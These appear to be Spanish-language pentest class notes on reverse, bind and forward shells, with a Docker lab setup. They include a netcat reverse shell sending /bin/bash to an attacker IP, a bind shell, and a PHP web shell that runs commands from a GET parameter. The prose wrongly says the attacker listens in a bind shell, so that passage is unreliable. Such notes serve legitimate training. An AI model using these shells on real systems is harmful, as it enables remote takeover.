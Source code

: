En esta clase, veremos las diferencias entre Reverse Shell, Bind Shell y Forward Shell:

- **Reverse Shell**: Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, permitiéndole tomar el control de la máquina remota.

- **Bind Shell**: Esta técnica es el opuesto de la Reverse Shell, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante en ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma.

- **Forward Shell**: Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

Es importante entender las diferencias entre estas técnicas para poder determinar cuál es la mejor opción en función del escenario de ataque y las limitaciones de la red.

## Crear Entorno en Docker
### Crear un Docker file
```dockerfile
FROM ubuntu:latest

ENV DEBIAN_FRONTEND noninteractive

RUN apt update && apt install -y apache2 \
  php

EXPOSE 80

ENTRYPOINT service apache2 start && /bin/bash
```
#### Ejecutar 
```bash
## Contruir Imagen
docker build -t my_image .

## Construir contenedor
docker run -dit -p 80:80 --cap-add=NET_admin --name myContainer my_image

## Ejecutar contenedor
docker exec -it myContainer bash 
```
## Reverse Shell 
```bash
## Maquina Atacante
nc -nlvp 443

## Maquina Victima
ncat -e /bin/bash <IP-Atacante> <PORT>
# Ejemplo 👇
ncat -e /bin/bash 172.17.0.1 443

## Poner un prompt en la consola interactiva
script -c /dev/null -c bash
```
## Bind Shell
```bash
## Maquina Victima
ncat -nlvp 443 -e /bin/bash

## Maquina Atacante
nc <IP-Victima> <PORT>

## Poner un prompt en la consola interactiva
script -c /dev/null -c bash
```

## **📊 Diferencias Clave**

| Característica                              | Reverse Shell | Bind Shell  |
| ------------------------------------------- | ------------- | ----------- |
| **Quién inicia la conexión**                | La víctima    | El atacante |
| **Necesita que el atacante abra un puerto** | ✅ Sí          | ❌ No        |
| **Fácil de usar detrás de un firewall/NAT** | ✅ Sí          | ❌ No        |
| **Riesgo de detección en la víctima**       | 🔥 Alto       | ⚠️ Medio    |
## Forward Shell

- Podemos crear un archivo `cmd.php` para tener ejecución remota de comandos.
```php
<?
	echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```
- Este archivo lo podemos poner en la ruta del servidor como: ``
